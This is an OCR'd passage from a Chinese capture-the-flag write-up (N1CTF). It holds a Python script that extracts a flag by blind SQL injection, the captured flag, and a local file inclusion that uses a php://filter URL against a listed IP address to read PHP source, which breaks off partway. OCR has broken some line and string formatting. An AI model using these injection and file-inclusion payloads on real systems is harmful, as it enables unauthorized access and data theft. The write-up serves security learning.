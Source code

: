 for i in range(1,1000):

for j in range(33,127):

payload = urllib.unquote("%%2b( pw > '%s')"%(flag+chr(j)))

data = {

"flag":"10",

"hi":payload

}

r = requests.post(url=url,data=data)

if "| 10

" in r.content:

tmp = urllib.unquote("%%2b( pw > '%s')"%(flag+chr(j-1)))

tmp_data = {

"flag": "10",

"hi": tmp

}

s = requests.post(url=url,data=tmp_data)

if "| 11

" in s.content:

flag += chr(j-1)

print flag

break

得到flag：N1CTF{HAHAH777A7AHA77777AAAA}

背景

进入题目后，点一下login……竟然就可以了= =这里有点坑

拿到url:http://47.52.152.93:20000/user.php?page=guest

发现可以文件包含，随即尝试读源码：

http://47.52.152.93:20000/user.php?page=php://filter/read=convert.base64-encode/resource=index

得到：

require_once "function.php";

if(isset($_SESSION['login'] )){

Header("Location: user.php?page=info");

}

else{
